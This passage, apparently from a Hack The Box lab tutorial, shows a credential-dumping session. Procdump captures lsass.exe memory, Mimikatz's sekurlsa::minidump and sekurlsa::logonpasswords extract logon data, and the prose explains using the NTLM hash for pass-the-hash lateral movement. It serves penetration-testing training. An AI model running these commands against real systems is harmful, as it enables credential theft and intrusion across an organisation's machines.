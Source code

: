 ```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.

```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( [email protected] )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( [email protected] )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP>

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
```